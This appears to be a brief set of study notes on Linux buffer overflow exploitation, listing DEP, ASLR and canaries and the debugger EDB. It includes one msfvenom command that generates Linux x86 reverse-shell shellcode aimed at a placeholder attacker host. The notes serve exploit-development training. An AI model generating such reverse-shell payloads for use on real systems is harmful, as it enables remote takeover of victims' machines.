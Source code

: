 # Linux Buffer Overflows

## DEP, ASLR, Canaries

Protection mechanism



Use EDB as debugger.

### Reverse Shell Code Generation

`-b` for bad chars

`-f` output format

`-v` for variable name to use

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=443 -b "\x00\x20" -f py -v shellcode
```

